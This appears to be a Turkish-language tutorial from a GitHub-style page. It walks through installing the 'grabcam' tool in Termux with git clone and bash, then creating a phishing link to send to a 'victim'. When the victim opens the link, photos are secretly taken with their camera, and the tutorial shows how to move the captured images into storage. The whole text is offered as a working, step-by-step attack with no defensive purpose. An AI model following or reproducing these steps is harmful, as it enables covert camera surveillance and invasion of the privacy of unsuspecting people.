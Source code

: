-) pkg install wget
1) apt-get update -y
2) apt-get upgrade -y
3) pkg install python -y
4) pkg install python2 -y
5) pkg install git -y
6) pip install lolcat
7) git clone https://github.com/noob-hackers/grabcam
ls
8) cd grabcam
ls
10) bash grabcam.sh
EVET KARŞIMIZA GRABCAM YAZILI EKRAN GELDİ
KOD SORUYOR VE BURAYA 02 YAZICAZ YAZMADAN ÖNCE MOBİL Veriyi ve HOTSPOT'U(internet paylaşımı) UNUTMAYINIZ
OLUŞTURDUKTAN SONRA İSE ŞU BÖLÜME SAYFAMIZ GELİYOR
VE KURBANIMIZA YOLLUYOR GİRDİGİ ZAMAN FOTOĞRAF ÇEKMEYE BAŞLIYOR. VE ŞU YAZI GELİYOR (Cam file received!)
ÇEKTİGİ FOTOLARI GÖRMEK İÇİN İSE
Ctrl+C YAPIP ÇIKIYORUZ
SONRA İSE ls KOMUTUNU YAZIYORUZ VE .png OLAN FOTOGRAFIN İSMİNİ KOPYALIYORUZ SONRA İSE ŞU KODU YAZIYORUZ
mv helloboys.png /sdcard
VE DOSYALARIMIZA GELİYOR

(Direct link:helloboys.io <-mesela )

LİNKİ OLUŞTURURKEN MOBİL VERİYİ VE HOTSPOT(paylaşım) AÇMANIZ LAZIM.
